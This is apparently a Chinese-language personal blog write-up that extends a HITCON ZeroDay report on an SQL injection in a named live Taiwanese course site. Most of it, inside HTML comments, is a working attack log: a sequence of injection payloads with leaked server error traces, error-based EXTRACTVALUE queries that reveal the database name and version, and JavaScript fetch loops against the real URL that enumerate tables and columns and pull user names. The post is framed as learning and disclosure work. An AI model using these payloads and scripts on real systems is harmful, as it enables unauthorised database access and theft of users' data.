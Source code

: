 ```yaml
---
title: SQL Injection beta-gocare Success
description: SQL Injection beta-gocare Success
last_update:
  date: "2025-08-17T08:00:00+08:00"
---
```


本文是 https://zeroday.hitcon.org/vulnerability/ZD-2025-00978 的延伸

<!-- ## 測試過程

1. `'`

```html
Fatal error: Uncaught PDOException: SQLSTATE[42000]: Syntax error or access
violation: 1064 You have an error in your SQL syntax; check the manual that
corresponds to your MySQL server version for the right syntax to use near '%'))
GROUP BY a.course_id OR' at line 9 in
/home2/lsdesign/public_html/includes/cls_mysql.php:65 Stack trace: #0
/home2/lsdesign/public_html/includes/cls_mysql.php(65): PDO->query('SELECT a.*
FROM...') #1 /home2/lsdesign/public_html/course/index.php(268):
DB->Execute('SELECT a.* FROM...') #2
/home2/lsdesign/public_html/course/index.php(17): show_search(Array) #3 {main}
thrown in /home2/lsdesign/public_html/includes/cls_mysql.php on line 65
```

2. `%'') OR 1=1-- 123`，SQL 成功執行，但畫面上無資料

3. `%'') AND '1'='1`

```html
Fatal error: Uncaught PDOException: SQLSTATE[42000]: Syntax error or access
violation: 1064 You have an error in your SQL syntax; check the manual that
corresponds to your MySQL server version for the right syntax to use near
'1'='1%')) GROUP BY a.course_id ' at line 9 in
/home2/lsdesign/public_html/includes/cls_mysql.php:65 Stack trace: #0
/home2/lsdesign/public_html/includes/cls_mysql.php(65): PDO->query('SELECT a.*
FROM...') #1 /home2/lsdesign/public_html/course/index.php(268):
DB->Execute('SELECT a.* FROM...') #2
/home2/lsdesign/public_html/course/index.php(17): show_search(Array) #3 {main}
thrown in /home2/lsdesign/public_html/includes/cls_mysql.php on line 65
```

4. `%'') OR 1=1)-- 123`，SQL 成功執行，但畫面上無資料

5. `%'') OR 1=1 AND 'x'='y))-- 123`

```html
Fatal error: Uncaught PDOException: SQLSTATE[42000]: Syntax error or access
violation: 1064 You have an error in your SQL syntax; check the manual that
corresponds to your MySQL server version for the right syntax to use near
'x'='y))-- 123%')) GROUP BY a.course_id ' at line 9 in
/home2/lsdesign/public_html/includes/cls_mysql.php:65 Stack trace: #0
/home2/lsdesign/public_html/includes/cls_mysql.php(65): PDO->query('SELECT a.*
FROM...') #1 /home2/lsdesign/public_html/course/index.php(268):
DB->Execute('SELECT a.* FROM...') #2
/home2/lsdesign/public_html/course/index.php(17): show_search(Array) #3 {main}
thrown in /home2/lsdesign/public_html/includes/cls_mysql.php on line 65
```

6. `%'') OR 1='1))-- 123`

```html
Fatal error: Uncaught PDOException: SQLSTATE[42000]: Syntax error or access
violation: 1064 You have an error in your SQL syntax; check the manual that
corresponds to your MySQL server version for the right syntax to use near '1))--
123%')) GROUP BY a.course_id ' at line 9 in
/home2/lsdesign/public_html/includes/cls_mysql.php:65 Stack trace: #0
/home2/lsdesign/public_html/includes/cls_mysql.php(65): PDO->query('SELECT a.*
FROM...') #1 /home2/lsdesign/public_html/course/index.php(268):
DB->Execute('SELECT a.* FROM...') #2
/home2/lsdesign/public_html/course/index.php(17): show_search(Array) #3 {main}
thrown in /home2/lsdesign/public_html/includes/cls_mysql.php on line 65
```

7. `%'') UNION SELECT 'test','test','test'/*`

```html
Fatal error: Uncaught PDOException: SQLSTATE[42000]: Syntax error or access
violation: 1064 You have an error in your SQL syntax; check the manual that
corresponds to your MySQL server version for the right syntax to use near
'test','test','test'/*%')) GROUP BY a.course_id ' at line 9 in
/home2/lsdesign/public_html/includes/cls_mysql.php:65 Stack trace: #0
/home2/lsdesign/public_html/includes/cls_mysql.php(65): PDO->query('SELECT a.*
FROM...') #1 /home2/lsdesign/public_html/course/index.php(268):
DB->Execute('SELECT a.* FROM...') #2
/home2/lsdesign/public_html/course/index.php(17): show_search(Array) #3 {main}
thrown in /home2/lsdesign/public_html/includes/cls_mysql.php on line 65
```

8. `%') UNION SELECT 'test','test','test'-- x`

```html
Fatal error: Uncaught PDOException: SQLSTATE[42000]: Syntax error or access
violation: 1064 You have an error in your SQL syntax; check the manual that
corresponds to your MySQL server version for the right syntax to use near 'UNION
SELECT 'test','test','test'-- x%')) GROUP BY a.c' at line 9 in
/home2/lsdesign/public_html/includes/cls_mysql.php:65 Stack trace: #0
/home2/lsdesign/public_html/includes/cls_mysql.php(65): PDO->query('SELECT a.*
FROM...') #1 /home2/lsdesign/public_html/course/index.php(268):
DB->Execute('SELECT a.* FROM...') #2
/home2/lsdesign/public_html/course/index.php(17): show_search(Array) #3 {main}
thrown in /home2/lsdesign/public_html/includes/cls_mysql.php on line 65
```

9. `%') UNION SELECT 'test','test','test';-- x`

```html
Fatal error: Uncaught PDOException: SQLSTATE[42000]: Syntax error or access
violation: 1064 You have an error in your SQL syntax; check the manual that
corresponds to your MySQL server version for the right syntax to use near 'UNION
SELECT 'test','test','test';-- x%')) GROUP BY a.' at line 9 in
/home2/lsdesign/public_html/includes/cls_mysql.php:65 Stack trace: #0
/home2/lsdesign/public_html/includes/cls_mysql.php(65): PDO->query('SELECT a.*
FROM...') #1 /home2/lsdesign/public_html/course/index.php(268):
DB->Execute('SELECT a.* FROM...') #2
/home2/lsdesign/public_html/course/index.php(17): show_search(Array) #3 {main}
thrown in /home2/lsdesign/public_html/includes/cls_mysql.php on line 65
```

10. `',(SELECT database()),'`

```html
Fatal error: Uncaught PDOException: SQLSTATE[21000]: Cardinality violation: 1241
Operand should contain 1 column(s) in
/home2/lsdesign/public_html/includes/cls_mysql.php:65 Stack trace: #0
/home2/lsdesign/public_html/includes/cls_mysql.php(65): PDO->query('SELECT a.*
FROM...') #1 /home2/lsdesign/public_html/course/index.php(268):
DB->Execute('SELECT a.* FROM...') #2
/home2/lsdesign/public_html/course/index.php(17): show_search(Array) #3 {main}
thrown in /home2/lsdesign/public_html/includes/cls_mysql.php on line 65
```

11. `') AND SLEEP(5) AND ('1'='1`，SQL 成功執行，但畫面上無資料，且沒有延遲 5 秒

12. 成功查到資料，但沒延遲 5 秒

```
') OR SLEEP(5) AND ('1'='1
') OR (SLEEP(5)) OR ('1'='1
') OR (SELECT SLEEP(5)) OR ('1'='1
```

13. `') AND EXTRACTVALUE(1,CONCAT(0x7e,database(),0x7e)) AND ('1'='1`，成功利用 error message 提取到 database 名稱是 `lsdesign_gogocare`

```html
Fatal error: Uncaught PDOException: SQLSTATE[HY000]: General error: 1105 XPATH
syntax error: '~lsdesign_gogocare~' in
/home2/lsdesign/public_html/includes/cls_mysql.php:65 Stack trace: #0
/home2/lsdesign/public_html/includes/cls_mysql.php(65): PDO->query('SELECT a.*
FROM...') #1 /home2/lsdesign/public_html/course/index.php(268):
DB->Execute('SELECT a.* FROM...') #2
/home2/lsdesign/public_html/course/index.php(17): show_search(Array) #3 {main}
thrown in /home2/lsdesign/public_html/includes/cls_mysql.php on line 65
```

14. `') AND EXTRACTVALUE(1,CONCAT(0x7e,version(),0x7e)) AND ('1'='1`，成功提取 MYSQL 版本號 = `8.0.43`

15. `') OR EXTRACTVALUE(1,CONCAT(0x7e,(SELECT COUNT(table_name) FROM information_schema.tables WHERE table_schema='lsdesign_gogocare' LIMIT 0,1),0x7e)) OR ('1'='1`，成功提取 table 數量 = 111

16. 列出所有 table_name（寫一段 JavaScript 迴圈直接戳 API）：

```js
const table_names = [];
for (let i = 0; i < 111; i++) {
  const sp = new URLSearchParams();
  sp.append(
    "srh_key_word",
    `') OR EXTRACTVALUE(1,CONCAT(0x7e,(SELECT table_name FROM information_schema.tables WHERE table_schema='lsdesign_gogocare' LIMIT ${i},1),0x7e)) OR ('1'='1`,
  );
  sp.append("srh_sort", "");
  fetch("https://beta-gocare.ls-design.com.tw/tw/course/search.html", {
    headers: {
      "content-type": "application/x-www-form-urlencoded",
    },
    body: sp.toString(),
    method: "POST",
    mode: "cors",
    credentials: "omit",
  })
    .then((r) => r.text())
    .then((text) => {
      const table_name = text.split(`XPATH syntax error: '~`)[1].split(`~'`)[0];
      table_names.push(table_name);
    });
}
```

![gocare-list-table-names](../../static/img/gocare-list-table-names.jpg)

17. `') OR EXTRACTVALUE(1,CONCAT(0x7e,(SELECT COUNT(column_name) FROM information_schema.columns WHERE table_name='usr' LIMIT 0,1),0x7e)) OR ('1'='1`，成功提取 `usr` table 的 column 數量 = 22

18. 列出 `usr` table 所有 column_name（寫一段 JavaScript 迴圈直接戳 API）：

```js
const usr_column_names = [];
for (let i = 0; i < 22; i++) {
  const sp = new URLSearchParams();
  sp.append(
    "srh_key_word",
    `') OR EXTRACTVALUE(1,CONCAT(0x7e,(SELECT column_name FROM information_schema.columns WHERE table_name='usr' LIMIT ${i},1),0x7e)) OR ('1'='1`,
  );
  sp.append("srh_sort", "");
  fetch("https://beta-gocare.ls-design.com.tw/tw/course/search.html", {
    headers: {
      "content-type": "application/x-www-form-urlencoded",
    },
    body: sp.toString(),
    method: "POST",
    mode: "cors",
    credentials: "omit",
  })
    .then((r) => r.text())
    .then((text) => {
      const result = text.split(`XPATH syntax error: '~`)[1].split(`~'`)[0];
      usr_column_names.push(result);
    });
}
```

![gocare-list-column-names](../../static/img/gocare-list-column-names.jpg)

19. 簡單撈個 3 筆 usr table 的 usr_name 就好，測試有權限可以讀取任意 table 的資料

```js
const usr_names = [];
for (let i = 0; i < 3; i++) {
  const sp = new URLSearchParams();
  sp.append(
    "srh_key_word",
    `') OR EXTRACTVALUE(1,CONCAT(0x7e,(SELECT usr_name FROM usr LIMIT ${i},1),0x7e)) OR ('1'='1`,
  );
  sp.append("srh_sort", "");
  fetch("https://beta-gocare.ls-design.com.tw/tw/course/search.html", {
    headers: {
      "content-type": "application/x-www-form-urlencoded",
    },
    body: sp.toString(),
    method: "POST",
    mode: "cors",
    credentials: "omit",
  })
    .then((r) => r.text())
    .then((text) => {
      const result = text.split(`XPATH syntax error: '~`)[1].split(`~'`)[0];
      usr_names.push(result);
    });
}
```

![gocare-list-usr-names](../../static/img/gocare-list-usr-names.jpg) -->

## 學到的東西

1. 利用 error-based SQLi，從 error message 提取資料，成功用上 [Lab: Visible error-based SQL injection](../port-swigger/sql-injection.md#lab-visible-error-based-sql-injection) 的概念

2. 測試過程很重要，尤其是初學者，建議把測試過程都記錄下來，方便之後回來複習。畢竟真實世界的 SQLi 不是每天都找的到，這比 Lab 環境真實多了，可以學到很多東西

3. 有時候不要一直想著用 `UNION SELECT` 來提取資料，像這個情況，我們一直卡在似乎無法跳出 `%'))`，但還是可以透過 error message 來提取到資料

4. [CONCAT()](https://www.w3schools.com/sql/func_mysql_concat.asp)

5. [ExtractValue()](https://dev.mysql.com/doc/refman/8.4/en/xml-functions.html#function_extractvalue)

## 檢討

1. 我對 SQL 語法還是不夠熟悉，即便有 error message，還是需要 AI 指引我方向，才能挖掘到 PoC。但換個角度想，我再怎麼樣，腦袋能裝的知識都比不過 AI，所以透過跟 AI 問答的方式學習 SQLi，甚至是說學習資安，其實也是一個不錯的方法（？

2. 在進行 SQLi 測試時，我會一直想推敲出原始的 SQL 語法，不然我會無法思考該怎麼注入，但也許可以著重在測試結果就好（？不要刻意去糾結原始的 SQL 語法，只要能夠成功提取到資料就好（？

<!-- ## 再次嘗試

1. `'%))-- 123`，成功查到資料

2. `'%)) UNION SELECT 1-- 123`

```html
Fatal error: Uncaught PDOException: SQLSTATE[42000]: Syntax error or access
violation: 1064 You have an error in your SQL syntax; check the manual that
corresponds to your MySQL server version for the right syntax to use near '%))
UNION SELECT 1-- 123%')) GROUP BY a.course_id ' at line 9 in
/home2/lsdesign/public_html/includes/cls_mysql.php:65 Stack trace: #0
/home2/lsdesign/public_html/includes/cls_mysql.php(65): PDO->query('SELECT a.*
FROM...') #1 /home2/lsdesign/public_html/course/index.php(268):
DB->Execute('SELECT a.* FROM...') #2
/home2/lsdesign/public_html/course/index.php(17): show_search(Array) #3 {main}
thrown in /home2/lsdesign/public_html/includes/cls_mysql.php on line 65
```

3. `%')) UNION SELECT 1-- 123`

```html
Fatal error: Uncaught PDOException: SQLSTATE[42S02]: Base table or view not
found: 1109 Unknown table 'a' in group statement in
/home2/lsdesign/public_html/includes/cls_mysql.php:65 Stack trace: #0
/home2/lsdesign/public_html/includes/cls_mysql.php(65): PDO->query('SELECT a.*
FROM...') #1 /home2/lsdesign/public_html/course/index.php(268):
DB->Execute('SELECT a.* FROM...') #2
/home2/lsdesign/public_html/course/index.php(17): show_search(Array) #3 {main}
thrown in /home2/lsdesign/public_html/includes/cls_mysql.php on line 65
```

4. `%')) ORDER BY 1-- 123`

```html
Fatal error: Uncaught PDOException: SQLSTATE[42000]: Syntax error or access
violation: 1064 You have an error in your SQL syntax; check the manual that
corresponds to your MySQL server version for the right syntax to use near 'GROUP
BY a.course_id ORDER BY course_psdate DESC' at line 10 in
/home2/lsdesign/public_html/includes/cls_mysql.php:65 Stack trace: #0
/home2/lsdesign/public_html/includes/cls_mysql.php(65): PDO->query('SELECT a.*
FROM...') #1 /home2/lsdesign/public_html/course/index.php(268):
DB->Execute('SELECT a.* FROM...') #2
/home2/lsdesign/public_html/course/index.php(17): show_search(Array) #3 {main}
thrown in /home2/lsdesign/public_html/includes/cls_mysql.php on line 65
```

5. `%')) UNION SELECT 1,2,3,4,5 FROM information_schema.tables a-- 123`

```html
Fatal error: Uncaught PDOException: SQLSTATE[42S22]: Column not found: 1054
Unknown column 'a.course_id' in 'group statement' in
/home2/lsdesign/public_html/includes/cls_mysql.php:65 Stack trace: #0
/home2/lsdesign/public_html/includes/cls_mysql.php(65): PDO->query('SELECT a.*
FROM...') #1 /home2/lsdesign/public_html/course/index.php(268):
DB->Execute('SELECT a.* FROM...') #2
/home2/lsdesign/public_html/course/index.php(17): show_search(Array) #3 {main}
thrown in /home2/lsdesign/public_html/includes/cls_mysql.php on line 65
``` -->
